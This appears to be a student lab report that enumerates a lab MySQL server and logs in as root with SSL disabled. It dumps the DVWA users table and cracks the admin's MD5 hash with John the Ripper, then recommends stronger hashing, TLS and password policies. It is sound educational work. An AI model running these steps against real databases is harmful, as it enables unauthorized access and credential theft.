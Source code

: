 # Lab 2: Cracking Weak Password Hashes & Exploiting Poor Authentication

*Time Allocated: 3 Hours  
Total Marks: 15* 

## OBJECTIVES
1. Find and exploit weak crypto in database login and password storage.
2. Do offline cracking of password hashes found in the database.
3. Learn from real-world crypto mistakes and suggest better ways.
4. Write a report in GitHub (Markdown) and show a short demo.

---

## LAB TASK

### 1. Service Enumeration and Initial Access

To begin, we perform an Nmap scan to identify open ports on the target system:

```bash
nmap -sS -sV -p- 192.168.100.131
```

> This scan reveals that **MySQL is running on port 3306**, indicating that the server is potentially accessible.

![nmap scan result](Screenshot/nmap-scan.png.png)

We attempt to connect to the MySQL server using:

```bash
mysql -h 192.168.100.131
```

This results in a connection error:

![mysql error](Screenshot/mysql_error.png)

**Why does this happen?**  
The error occurs because the **MySQL server enforces SSL/TLS**, but the default client does not support or negotiate the required encryption protocol.

**How to fix it?**  
We bypass the SSL requirement using the following command:

```bash
mysql -h 192.168.100.131 -u root --ssl=off
```

> ⚠️ By disabling SSL, the connection is successful but **not encrypted**, meaning credentials are exposed during transmission.

![successful mysql connection](Screenshot/mysql-success.png)

---

### 2. User Enumeration and Weak Authentication

After successfully accessing the MySQL server, we begin database enumeration:

```bash
show databases;
```

![show databases](Screenshot/show-databases.png)

We switch to the vulnerable `dvwa` database:

```bash
use dvwa;
```

![use dvwa](Screenshot/use-dvwa.png)

List tables in the selected database:

```bash
show tables;
```

![show tables](Screenshot/show-tables.png)

Inspect the `users` table to find usernames and password hashes:

```bash
select * from users;
```

![user table](Screenshot/users-database.png)

From the output, we identify a **hashed password for the `admin` user**:

```text
5f4dcc3b5aa765d61d8327deb882cf99
```

---

### 3. Hash Type Identification

We identify the hash type using the tool `hash-identifier`:

```bash
hash-identifier
```

Enter the hash and observe the result:

![hash identification](Screenshot/hash-id.png)  
![identified result](Screenshot/identifier-result.png)

> The tool identifies it as **MD5**, a widely used but insecure hashing algorithm.

---

### 4. Cracking the Password

We create a file to store the hash:

```bash
echo "5f4dcc3b5aa765d61d8327deb882cf99" > hash.txt
```

![hash file](Screenshot/hash-txt.png)

Use **John the Ripper** to crack it with the popular RockYou wordlist:

```bash
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![password cracked](Screenshot/pass-crack.png)

Finally, view the cracked password:

```bash
cat ~/.john/john.pot
```

![john pot output](Screenshot/john-pot.png)

> ✅ The password for the `admin` user is revealed to be: **password**

---

### 5. Cryptographic Analysis and Mitigation

- **Weakness 1: MD5 Hashes** — MD5 is outdated and fast to compute, making it vulnerable to brute-force and rainbow table attacks.
- **Weakness 2: Unencrypted Connection** — Disabling SSL for MySQL connections exposes login credentials to sniffing attacks.
- **Weakness 3: Weak Password** — Simple passwords like `password` are trivial to crack and should never be used.

**Recommendations:**
- Use stronger hashing algorithms like **bcrypt**, **scrypt**, or **Argon2**.
- Always enforce **TLS/SSL** for database connections.
- Enforce **strong password policies** and implement **multi-factor authentication**.

---

## Conclusion

This lab demonstrated how **weak password hashes, poor authentication, and lack of encryption** can be exploited by attackers. By identifying and cracking a weak MD5 hash and bypassing SSL requirements, we successfully extracted sensitive credentials. This highlights the importance of adopting **modern cryptographic standards** and **secure coding practices** to protect systems from real-world threats.